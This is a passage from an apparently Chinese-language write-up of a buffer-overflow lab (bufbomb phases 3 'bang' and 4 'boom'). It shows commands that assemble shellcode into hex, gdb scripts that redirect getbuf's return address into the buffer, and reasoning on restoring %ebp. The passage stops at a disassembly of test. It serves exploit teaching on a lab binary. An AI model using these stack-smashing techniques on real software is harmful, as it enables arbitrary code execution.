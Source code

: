 使用以下命令得到缓冲区的指令与十六进制序列：

```sh
gcc -c solve-bang.s
objcopy -O binary -j .text solve-bang.o solve-bang.bin
xxd -c 8 -g 1 solve-bang.bin | cut -d ' ' -f 2-9 > solve-bang.hex
```

将 solve-bang.bin 输入并运行，重新启动 gdb 调试运行以下命令，通过。

```gdb
b *(getbuf+9)
c
printf "dest ret addr: %#lx\n", $eax
b *(getbuf+20)
c
x /4i $ebp-0x28
set $eax=$ebp-0x28
b *(getbuf+21)
c
set *(void**)$esp=$eax
c
```

> "dest ret addr: ..." 输出的地址为缓冲区基地址，即 getbuf 需要的返回地址。

### phase 4 - boom

本例中 getbuf 需要跳转到 test 方法中，其中 test 将检测堆栈状态并对 getbuf 的返回值与 cookie 进行判定。

重新描述下，也即 getbuf 需要在不破坏堆栈状态的情况下设置返回值并返回，也即**最完美的实现应当是与调用方是否为 test 无关**。

比照 phase 3，该任务只需要想办法备份进入 getbuf 时的返回地址即可。

但是很显然，采取攻击需要覆写返回地址，不覆写地址就无法完成攻击。

故而上面提到的所谓**最完美的实现**应当是做不到的，所以还是得查 test 调用 getbuf 时的返回地址并硬编码。

> 断言且实际真的能够做到的神们请提前受我一拜！

另一个部分是恢复栈帧，也即 \$ebp 和 \$esp 的值。其中 \$esp 的值在该攻击中并不受影响，故只需恢复 \$ebp 的值。

在进入函数时会有一次 `mov %ebp, %esp`，故在 getbuf 函数中关于 \$ebp 的线索的来源只有 \$esp。

但在 leave 指令后栈帧恢复，\$esp 不再持有旧 \$ebp 的值，所以在 getbuf 函数中是找不到答案的，只能去 getbuf 的调用方 test 函数内找答案。

反汇编 test 函数得到以下内容（部分）：

```asm
push   %ebp
mov    %esp,%ebp
push   %ebx
sub    $0x14,%esp
call   8048d41 <uniqueval>
mov    %eax,-0xc(%ebp)
call   80491c1 <getbuf>
...
```
